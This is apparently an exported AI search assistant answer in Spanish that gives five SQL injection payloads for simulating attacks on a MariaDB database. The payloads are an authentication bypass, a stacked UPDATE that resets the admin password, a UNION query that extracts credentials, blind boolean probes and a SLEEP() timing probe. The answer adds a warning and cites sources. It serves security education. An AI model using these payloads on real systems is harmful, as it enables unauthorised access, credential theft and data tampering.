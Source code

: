 <img src="https://r2cdn.perplexity.ai/pplx-full-logo-primary-dark%402x.png" class="logo" width="120"/>

# puedes ponerme unos ejemplos para simular esos problemas en un BD MAriaDb

Aquí tienes ejemplos prácticos para simular algunos de los ataques más comunes en una base de datos MariaDB, especialmente centrados en la inyección SQL, que es uno de los vectores más frecuentes y peligrosos.

## Ejemplos de ataques para simular en MariaDB

**1. Inyección SQL clásica para evadir autenticación**
Supón que tienes un formulario de login con los campos `usuario` y `clave`. Si la consulta SQL es vulnerable, un atacante podría introducir en el campo de contraseña:

```
' OR 1=1 --
```

La consulta resultante sería:

```sql
SELECT * FROM usuarios WHERE usuario = 'cualquiera' AND clave = '' OR 1=1 --';
```

Esto permite el acceso sin necesidad de conocer la contraseña real, ya que la condición `1=1` siempre es verdadera[^5][^6].

**2. Inyección para modificar datos**
Si el sistema permite ejecutar múltiples sentencias, un atacante podría modificar datos. Por ejemplo, en un campo vulnerable, introducir:

```
'; UPDATE usuarios SET clave='nueva_clave' WHERE usuario='admin'; --
```

Esto ejecutaría un cambio de contraseña para el usuario 'admin'[^1][^5].

**3. Inyección para extraer información de otras tablas**
Utilizando la cláusula `UNION`, un atacante puede intentar obtener datos de otras tablas:

```
' UNION SELECT usuario, clave, 1 FROM usuarios WHERE '1'='1
```

Esto puede mostrar nombres de usuario y contraseñas en la salida de la consulta original, si la aplicación muestra los resultados en pantalla[^5][^6].

**4. Inyección SQL ciega (Blind SQL Injection)**
Para probar si existe una vulnerabilidad sin recibir mensajes de error visibles, se pueden usar condiciones booleanas:

```
' AND 1=1 --
' AND 1=2 --
```

Si la respuesta de la aplicación cambia, indica que es vulnerable a inyección ciega[^3][^7].

**5. Inyección basada en tiempo**
Para comprobar vulnerabilidades cuando no hay respuesta directa, puedes usar la función `SLEEP()` de MariaDB/MySQL:

```
1' OR SLEEP(5) --
```

Si la respuesta se retrasa, la base de datos es vulnerable a este tipo de ataques[^3].

---

> **Advertencia:** Estos ejemplos son solo para fines educativos y de pruebas controladas en entornos propios y nunca deben usarse en sistemas ajenos sin autorización expresa.

Estos ejemplos cubren los principales escenarios de ataque que puedes simular en una base de datos MariaDB para entender cómo funcionan y cómo protegerte de ellos[^1][^5][^6].

<div style="text-align: center">⁂</div>

[^1]: https://diego.com.es/ataques-sql-injection-en-php

[^2]: https://deephacking.tech/introduccion-sql-injection/

[^3]: https://kinsta.com/es/blog/inyeccion-sql/

[^4]: https://oa.upm.es/82654/1/TFG_SOFIA_ALEJANDRA_CADENAS_FERNANDEZ.pdf

[^5]: https://openaccess.uoc.edu/bitstream/10609/62886/1/Seguridad en bases de datos_M%C3%B3dulo%203_Ataques%20a%20BB.DD.,%20SQL%20Injection.pdf

[^6]: https://www.datacamp.com/es/tutorial/sql-injection

[^7]: https://blog.hostalia.com/hostalia/ataques-de-inyeccion-sql-que-son-y-como-protegerse/

[^8]: https://www.youtube.com/watch?v=KFU6aBh4hEU


